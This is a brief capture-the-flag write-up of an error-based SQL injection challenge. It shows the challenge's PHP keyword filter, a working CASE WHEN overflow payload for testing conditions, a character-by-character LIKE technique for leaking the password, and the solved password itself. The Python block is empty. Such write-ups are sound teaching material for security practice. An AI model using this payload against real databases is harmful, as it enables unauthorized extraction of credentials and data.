

Here this is very similar to [blue_dragon](./blue_dragon.md), however, here this is `Error based SQL Injection`.

In addition, we can see we have filters:
```php
if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
```

So, this will be the payload we give:
```sql
' or id='admin' and case when CONDITION then 7700000000000000*7700000000000000 else 1 end -- 
```

Now, when the condition is true will get error.

We can leak the password by giving something like: `pw like 'a%'`, and by this way like char by char

```python

```



**Password:** ***`0dc4efbb`*** 
